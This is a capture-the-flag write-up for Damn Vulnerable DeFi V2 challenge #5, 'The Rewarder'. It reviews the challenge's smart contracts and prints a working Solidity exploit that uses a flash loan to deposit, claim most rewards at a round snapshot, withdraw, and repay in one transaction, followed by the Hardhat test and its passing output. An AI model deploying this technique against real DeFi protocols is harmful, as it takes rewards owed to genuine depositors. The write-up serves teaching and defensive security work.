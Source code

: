 # Damn Vulnerable DeFi V2 - #5 The Rewarder

<p className="text-xs text-right">December 1, 2021 by [patrickd](/about#patrickd)</p>


This is Part 2 of the [Damn Vulnerable DeFi V2](https://www.damnvulnerabledefi.xyz/v2-release.html) writeup. You can find the Setup and Challenges 1 to 4 in the [previous article](/posts/2021/11/13/damn-vulnerable-defi-v2-part-1-setup-and-challenges-1-to-4).

<Callout type="warning">
  Remember, don't read this unless you really want to be spoiled!
</Callout>

---

## Code Review

>There's a pool offering rewards in tokens every 5 days for those who deposit their DVT tokens into it.
>
>Alice, Bob, Charlie and David have already deposited some DVT tokens, and have won their rewards!
>
>You don't have any DVT tokens. But in the upcoming round, you must claim most rewards for yourself.
>
>Oh, by the way, rumours say a new pool has just landed on mainnet. Isn't it offering DVT tokens in flash loans?

This is a big one! Four contracts and even the test suite has a lot of code. And it sounds like we have to make use of flash loans in order to get rewards despite not being able to lock the loans up for 5 days?

Let's not get overwhelmed and start with the [test setup](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/test/the-rewarder/the-rewarder.challenge.js) again. The flash loan pool gets a million token right from the start, and each of the 4 people mentioned get 100 DVT, which are immediately deposited by them into the rewarder pool. After this initial setup, time is advanced by 5 days and a round of rewards is paid out: 25 reward tokens for each person.

The success conditions require that the participants so far, only get 0.01 or less reward tokens, while the attacker earns nearly 100 tokens. All of this must happen in the next round and the attacker may not have any DVT tokens at the end (cause he is supposed to borrow them).

Starting with the contract I expect to have the least code, [RewardToken.sol](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/contracts/the-rewarder/RewardToken.sol) is a relatively simple ERC20 token, with the only difference to DVT that its creator may mint unlimited amounts of it. I didn't expect anything to stand out here but actually that "`@dev A mintable ERC20 with 2 decimals to issue rewards`" comment is rather strange. That is because the default `decimals()` function of OpenZeppelin's ERC20 implementation returns `18` and there's nothing in RewardToken overriding that. Did we already stumble upon the issue? Inconsistent handling of decimals? Or just an oversight from the refactoring to v2?

Let's next look at [FlashLoanerPool.sol](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/contracts/the-rewarder/FlashLoanerPool.sol) since we should be fairly familiar with it at this point and it's probably the tool we're supposed to use to exploit the rewarder contract with. And yes, it's the typical pattern, just this time the borrowing contract needs to implement a `receiveFlashLoan(uint256)` function to be notified about the loan.

Next [AccountingToken.sol](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/contracts/the-rewarder/AccountingToken.sol), which I expect are given in return for DVT deposits made into the rewarder contract? It looks more complicated than it is: Basically its creator may freely mint and burn tokens, to and from any address. Transfers and allowances appear to have been disabled. And it's possible to create snapshots of the current balances (accessible via `balanceOfAt()`), that are likely made for each round of rewards. See [OpenZeppelin's ERC20 Snapshot](https://docs.openzeppelin.com/contracts/3.x/api/token/erc20#ERC20Snapshot) extension for more information.

Finally we look at where the magic is supposed to happen, [TheRewarderPool.sol](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/contracts/the-rewarder/TheRewarderPool.sol)'s constructor looks as expected: It deploys the accounting and reward token contracts, and then creates the first snapshot starting the first round. The inline comment "`// Assuming all three tokens have 18 decimals`" stands a bit out though, while it's correct it's in conflict with the pevious comment we found in the RewardToken contract.

Continuing on, it has 3 public/external functions that can be called by anyone: `deposit(uint)`, `withdraw(uint)` and `distributeRewards()`. Deposit and withdraw do just about what you would expect, they exchange your DVT with the accounting tokens, with the only difference that depositing also triggers the reward distribution function. `distributeRewards()` first checks whether enough time has passed to start a new round, if so it creates a snapshot. Either way, it calculates the callers rewards based on how much he has deposited compared to all other users. It then checks whether the caller has already retrieved their reward for the current round, if not, the calculated amount of reward tokens is minted.

After understanding how reward distribution works, I finally noticed the issue: If you time it right and start the new round with your deposit, you can claim the reward for that round immediately and withdraw. Doing all of that from another contract, meaning in a single transaction, you can make use of a flashloan and claim the majority of the rewards. I'm not quite sure about this yet though, since it requires you to manipulate time and seems a bit easy to be honest - but let's try it:

---

## Exploit

```solidity showLineNumbers filename="RewarderExploit.sol" {45-63} copy
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IDamnValuableToken {
    function approve(address spender, uint256 amount) external returns (bool);
    function transfer(address recipient, uint256 amount) external returns (bool);
}

interface IRewardToken {
    function transfer(address recipient, uint256 amount) external returns (bool);
}

interface ITheRewarderPool {
    function liquidityToken() external returns (IDamnValuableToken);
    function rewardToken() external returns (IRewardToken);
    function deposit(uint256 amountToDeposit) external;
    function withdraw(uint256 amountToWithdraw) external;
    function distributeRewards() external returns (uint256);
}

interface IFlashLoanerPool {
    function flashLoan(uint256 amount) external;
}

interface IFlashLoanReceiver {
    function receiveFlashLoan(uint256 amount) external;
}

contract RewarderExploit is IFlashLoanReceiver {
    address immutable attacker;
    uint256 immutable TOKENS_IN_LENDER_POOL;
    IFlashLoanerPool immutable flashLoanerPool;
    ITheRewarderPool immutable rewarderPool;
    IDamnValuableToken immutable liquidityToken;
    IRewardToken immutable rewardToken;
    constructor(uint256 _tokensInLenderPool, address _flashLoanerPool, address _rewarderPool) {
        attacker = msg.sender;
        TOKENS_IN_LENDER_POOL = _tokensInLenderPool;
        flashLoanerPool = IFlashLoanerPool(_flashLoanerPool);
        rewarderPool = ITheRewarderPool(_rewarderPool);
        liquidityToken = ITheRewarderPool(_rewarderPool).liquidityToken();
        rewardToken = ITheRewarderPool(_rewarderPool).rewardToken();
    }

    // Only start the exploit if TheRewarderPool's lastRecordedSnapshotTimestamp is older than 5 days!
    function pwn() external {
        // Take a loan.
        flashLoanerPool.flashLoan(TOKENS_IN_LENDER_POOL); // Triggers callback.
    }

    // The flashloan callback.
    function receiveFlashLoan(uint256 amount) external override {
        // Deposit all of the borrowed tokens.
        liquidityToken.approve(address(rewarderPool), amount);
        rewarderPool.deposit(amount); // Triggers snapshot and distribution of rewards.
        // Transfer rewards to attacker EOA.
        uint256 rewards = rewarderPool.distributeRewards(); // Doesn't have any effect but quickly gives us the amount of rewards.
        rewardToken.transfer(attacker, rewards);
        // Withdraw all of the liquidity tokens again.
        rewarderPool.withdraw(amount);
        // Pay back the flash loan.
        liquidityToken.transfer(address(flashLoanerPool), amount);
    }

}
```

That's a lot of interfaces now, but I left them in place instead of importing the contracts thinking it probably makes the code more easily understood when read here on the web.

Just like in the previous challenge we again have to deploy this contract and call the `pwn()` function. But this time we have to make sure to trigger the exploit only when the timing is right: We need to be the ones starting the new round.

```javascript filename="the-rewarder.challenge.js" copy
it('Exploit', async function () {
    // Deploy exploit contract.
    const ExploitFactory = await ethers.getContractFactory('RewarderExploit', attacker);
    const exploit = await ExploitFactory.deploy(TOKENS_IN_LENDER_POOL, this.flashLoanPool.address, this.rewarderPool.address);
    // We simulate waiting just long enough for the next round to start.
    await ethers.provider.send("evm_increaseTime", [5 * 24 * 60 * 60]); // 5 days
    // Execute exploit!
    await exploit.pwn();
});
```

And indeed, it appears we've solved it the intended way, I think?

```bash
ubuntu@damnsvulndefi:~/damn-vulnerable-defi$ yarn run the-rewarder
yarn run v1.22.17
$ yarn hardhat test test/the-rewarder/the-rewarder.challenge.js
$ /home/ubuntu/damn-vulnerable-defi/node_modules/.bin/hardhat test test/the-rewarder/the-rewarder.challenge.js


  [Challenge] The rewarder
    ✓ Exploit (112ms)


  1 passing (1s)

Done in 2.62s.
```

---

## Conclusion

Learning? It's not so simple this time, since it wasn't a typical "vulnerability" but rather a naive implementation. Even if you'd force the round-start (snapshot) to be within a different transaction/block than the deposit of liquidity in order to prevent attacks from flash loans, a user with lots of tokens could still simply deposit them at the end of a round and withdraw immediately after claiming their rewards after the new round was started. Your protocol probably wants to incentivize long-term staking and not, short-term arbitrage trades. So it would probably be best to get rid of rounds and instead reward users for every second they are providing liquidity like many modern DeFi projects are doing today.

---


<Cards>
  <Card
    icon={<FileIcon />}
    title="← Damn Vulnerable DeFi V2 - Part #1: Setup And Challenges 1 To 4"
    href="/posts/2021/11/13/damn-vulnerable-defi-v2-part-1-setup-and-challenges-1-to-4/"
  />
  <Card
    icon={<FileIcon />}
    title="Damn Vulnerable DeFi V2 - #6 Selfie →"
    href="/posts/2022/2/21/damn-vulnerable-defi-v2-6-selfie/"
  />
</Cards>